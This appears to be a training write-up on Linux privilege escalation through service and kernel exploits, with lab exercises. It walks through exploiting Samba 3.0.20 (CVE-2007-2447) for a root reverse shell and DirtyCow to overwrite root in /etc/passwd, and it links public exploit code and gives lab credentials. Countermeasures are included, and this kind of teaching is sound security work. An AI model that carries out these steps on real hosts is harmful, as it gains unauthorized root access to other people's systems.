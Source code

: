 
# Exploit
An exploit (from the English verb to exploit, meaning "to use something to one’s own advantage") is a piece of software, a chunk of data, or a sequence of commands that takes advantage of a bug or vulnerability to cause unintended or unanticipated behavior to occur on computer software, hardware, or something electronic (usually computerized).[1] Such behavior frequently includes things like gaining control of a computer system, allowing privilege escalation, or a denial-of-service (DoS or related DDoS) attack.

## Service exploit
As you know, a computer has services running in the background (Samba, MySQL, Apache,...) All these services are likely to have a vulnerability. It is better to try to exploit these services first before trying to exploit a kernel vulnerability.

First of all it is necessary to know under which user the service in question is launched. It is necessary that the account that ran the service has privileges higher than those you already have.

You can see this by running the "ps" command. Another information that can be obtained is the PID of the process. 

```bash
┌──(kali㉿kali)-[~]
└─$ ps -aux | grep root  
root           1  0.0  0.2 166264 11504 ?        Ss   Jul28   0:03 /sbin/init splash
root           2  0.0  0.0      0     0 ?        S    Jul28   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   Jul28   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   Jul28   0:00 [rcu_par_gp]
root           6  0.0  0.0      0     0 ?        I<   Jul28   0:00 [kworker/0:0H-events_highpri]
root           9  0.0  0.0      0     0 ?        I<   Jul28   0:00 [mm_percpu_wq]

...

root      4596  0.0  0.0   5396  1272 ?        Ss   Jun21   1:14 /usr/sbin/nmbd -D
root      4598  0.0  0.0   7724  1704 ?        Ss   Jun21   0:00 /usr/sbin/smbd -D
root      4603  0.0  0.0   7724   808 ?        S    Jun21   0:00 /usr/sbin/smbd -D
```
Here we can see that the samba service is running as root.

You can get the version of by doing the command ``smbd --version`` 

````bash
alice@metasploitable:~$ smbd --version
Version 3.0.20-Debian
````
Search in searchsploit with the term samba 3.0.20

````
┌──(kali㉿kali)-[~/pentest/]
└─$ searchsploit Samba 3.0.20 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                            | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                     | linux_x86/dos/36741.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

We can see that this vulnerability (CVE-2007-2447) allows in this case to have access to the root account.

> Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) 

**Countermeasures :**  
Never run a service as root unless it is really necessary, especially web, database and file servers.

---- 

**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice31

Connect to 10.12.1.36 with alice account.

- What is the samba version  ? 
    > Version 3.0.20-Debian
- On your kali machine, download this script : https://github.com/amriunix/CVE-2007-2447
- Execute on your kali machine with the parameters:
- `python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>`
    - RHOST = Remote Host - Victim ip
    - RPORT = Remote Port - port of samba (139)
    - LHOST = The local ip
    - LPORT -- The loical port

- Execute a listener on your kali machine

POV:

![image](https://github.com/gustavoalito/BeCode/assets/133368766/3f8d67dc-0aee-4720-8713-3b6b3c3f6cde)


![image](https://github.com/gustavoalito/BeCode/assets/133368766/b7674ff2-4b07-4199-b18a-4bc021fe65b2)


And BIM!

----


## Kernel Exploit
Kernel exploits are programs that exploit kernel vulnerabilities to execute arbitrary code with elevated permissions. Successful kernel exploits typically give attackers superuser access to target systems in the form of a root command prompt. In many cases, going root on a Linux system is as simple as downloading a kernel exploit onto the target file system, compiling the exploit, and then executing it.

Assuming we can execute code as an unprivileged user, this is the generic workflow of a kernel exploit.

1. Prompts the kernel to execute our payload in kernel mode
2. Manipulate kernel data, e.g. process privileges
3. Launch a shell with new Get root! privileges.

Consider that for a kernel exploitation attack to succeed, an adversary requires four conditions:

1. A vulnerable kernel
2. A matching exploit
3. The ability to transfer the exploit to the target
4. The ability to execute the exploit on the target

The easiest way to defend against kernel exploits is to keep the kernel patched and updated. In the absence of patches, administrators can strongly influence the ability to transfer and execute the exploit on the target. Given these considerations, kernel exploit attacks are no longer viable if an administrator can prevent the introduction and/or execution of the exploit on the Linux file system. Therefore, administrators should focus on restricting or removing programs that allow file transfers, such as FTP, TFTP, SCP, wget and curl. When these programs are required, their use should be restricted to specific users, directories, applications (such as SCP) and IP addresses or domains.

The infamous DirtyCow exploit - Linux Kernel <= 3.19.0-73.8

A race condition was found in the way the Linux kernel memory subsystem handled copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system. This was one of the most serious privilege escalation vulnerabilities ever discovered and affected almost all major Linux distributions.

You can see more variants of dirtycow exploits here - https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

There are many local privilege escalation exploits publicly available for different kernels and operating systems. The possibility of gaining root access on a Linux host using a kernel exploit depends on whether the kernel is vulnerable or not. Kali Linux has a local copy of the exploit-db exploits that make it easy to find local root exploits. Although I do not suggest relying entirely on this database when searching for Linux kernel exploits.

```
searchsploit Linux Kernel 2.6.24 - It shows us all available exploits for a particular Linux kernel that are already present in kali Linux.
```

Why should you avoid running any local privilege escalation exploit in the first place?
However, it is very tempting to simply run an exploit and gain root access, but you should always keep that as your last option.

1. The remote host may crash as many publicly available root exploits are not very stable.
2. You could become root and then crash the box.
3. The exploit may leave traces/logs that can get you caught.

You should always try the other techniques for getting root that have been discussed below before jumping straight to running a local root exploit.

**Countermeasures :**
- Keep the kernel patched and updated.

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- What is the kernel version  ? 
    > `unmae -r`: 2.6.24-16-server

- Look in searchsploit if the kernel is vulnerable? If or how many are there?
    > With the KERNEL keyword, about 56.
    > `searchsploit linux 2.6.24`

- Download the dirtycow exploit from here : https://www.exploit-db.com/exploits/40839/

- Compile and execute it. It replaces the user 'root' with a new user 'rash' by editing the file /etc/passwd.


And BIM !

---- 




